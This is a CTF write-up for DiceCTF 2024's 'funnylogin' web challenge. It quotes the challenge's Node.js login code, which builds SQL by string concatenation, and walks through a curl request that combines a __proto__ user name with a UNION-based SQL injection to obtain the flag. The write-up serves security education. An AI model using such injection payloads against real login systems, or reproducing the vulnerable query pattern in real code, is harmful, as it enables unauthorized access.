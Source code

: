 
<!DOCTYPE html>
<html>

<body>
    <h1>dicectf 2024- web/funnylogin Challenge Writeup(first save it)</h1>

    <h2>Challenge Description</h2>
    <p> NOTE: no bruteforcing is required for this challenge! please do not bruteforce the challenge.

funnylogin:https://funnylogin.mc.ax/
 https://static.dicega.ng/uploads/6beb05ec61c3436cf1e0d566f56e786e42bd8e2fe788404169cae34c368929e4/funnylogin.tar.gz
</p>

    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
 

# Solution
URL and source are passed.
When you access it, it looks like just a login form.
![site.png](site/site.png)
Looking at the source, the main parts of app.js are as follows.
<pre>
const users = [...Array(100_000)].map(() => ({ user: `user-${crypto.randomUUID()}`, pass: crypto.randomBytes(8).toString("hex" ) }));
db.exec(`INSERT INTO users (id, username, password) VALUES ${users.map((u,i) => `(${i}, '${u.user}', '${u. pass}')`).join(", ")}`);

const isAdmin = {};
const newAdmin = users[Math.floor(Math.random() * users.length)];
isAdmin[newAdmin.user] = true;

app.use(express.urlencoded({ extended: false }));
app.use(express.static("public"));

app.post("/api/login", (req, res) => {
     const { user, pass } = req.body;

     const query = `SELECT id FROM users WHERE username = '${user}' AND password = '${pass}';`;
     try {
         const id = db.prepare(query).get()?.id;
         if (!id) {
             return res.redirect("/?message=Incorrect username or password");
         }

         if (users[id] && isAdmin[user]) {
             return res.redirect("/?flag=" + encodeURIComponent(FLAG));
         }
         return res.redirect("/?message=This system is currently only available to admins...");
     }
     catch {
         return res.redirect("/?message=Nice try...");
     }
});
</pre>
There is SQLi which is trivial.
However, it seems that you can only become admin if <pre>users[id] && isAdmin[user]<pre> is true.
First, consider <pre>isAdmin[user]</pre>.
Only one of the users created in large quantities was randomly added as the `isAdmin` key, and we do not know who is the admin.
Here, you will notice that if you specify <pre>__proto__</pre> or <pre>toString</pre> to <pre>user</pre>, it will not become <pre>undefined</pre>.
For the remaining <pre>users[id]</pre>, just return an appropriate <pre>id</pre> using SQLi UNION.
Do as follows.
<pre>
$ curl -X POST https://funnylogin.mc.ax/api/login -d "user=user&pass=pass"</pre>
Found. Redirecting to /?message=Incorrect%20username%20or%20password
<pre>$ curl -X POST https://funnylogin.mc.ax/api/login -d "user=__proto__&pass=' UNION SELECT id FROM users WHERE id = 1; -- satoki"</pre>
Found. Redirecting to /?flag=dice%7Bi_l0ve_java5cript!%7D
 
flag found


    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag"> dice{i_l0ve_java5cript!}
</p>

    <h2>Conclusion</h2>
    <p>this is a easy sql injection and web exploitaion challenge with work on javascript files</p>
</body>
</html>
